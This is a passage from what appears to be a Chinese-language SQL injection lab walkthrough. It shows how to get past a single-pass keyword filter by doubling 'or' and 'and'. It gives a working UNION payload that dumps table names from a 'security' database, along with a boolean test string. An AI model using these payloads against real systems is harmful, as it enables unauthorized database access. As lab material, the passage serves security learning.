 单次过滤，使用双写试试，infoorrmation_schema.tables 里我们双写了 oorr ，替换 or 为空 剩下的还是 or

```
?id=-1' union select 1,2,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'),4,5,6 --+
```

<img src="图片\Snipaste_2023-01-23_13-31-55.png" alt="Snipaste_2023-01-23_13-31-55" style="zoom:67%;" />

双写 and 为 anandd

```
?id=1' anandd 1=1 --+
```

<img src="图片\Snipaste_2023-01-23_13-33-22.png" alt="Snipaste_2023-01-23_13-33-22" style="zoom:67%;" />
